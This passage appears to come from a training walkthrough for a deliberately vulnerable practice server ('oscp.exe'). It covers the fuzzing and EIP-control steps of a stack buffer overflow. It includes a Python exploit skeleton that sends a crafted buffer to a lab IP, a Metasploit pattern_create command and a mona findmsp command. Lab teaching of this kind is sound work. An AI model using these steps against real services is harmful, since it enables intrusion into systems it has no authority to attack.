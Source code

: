Run the fuzzer.py script using python: **python3 fuzzer.py**

The fuzzer will send increasingly long strings comprised of As. If the fuzzer crashes the server with one of the strings, the fuzzer should exit with an error message. Make a note of the largest number of bytes that were sent.

### Crash Replication & Controlling EIP

Create exploit.py

```
#!/usr/bin/env python3

import socket

ip = "192.168.1.201"
port = 1337

prefix = ""
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

Run the following command to generate a cyclic pattern of a length 400 bytes longer that the string that crashed the server (change the -l value to this):
```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2000
```
Copy the output and place it into the payload variable of the exploit.py script.

On Windows, in Immunity Debugger, re-open the oscp.exe again using the same method as before, and click the red play icon to get it running. You will have to do this prior to each time we run the exploit.py (which we will run multiple times with incremental modifications).

On Kali, run the modified exploit.py script: **python3 exploit.py**

The script should crash the oscp.exe server again. This time, in Immunity Debugger, in the command input box at the bottom of the screen, run the following mona command, changing the distance to the same length as the pattern you created:
```
!mona findmsp -distance 2000
```
Mona should display a log window with the output of the command. If not, click the "Window" menu and then "Log data" to view it (choose "CPU" to switch back to the standard view).
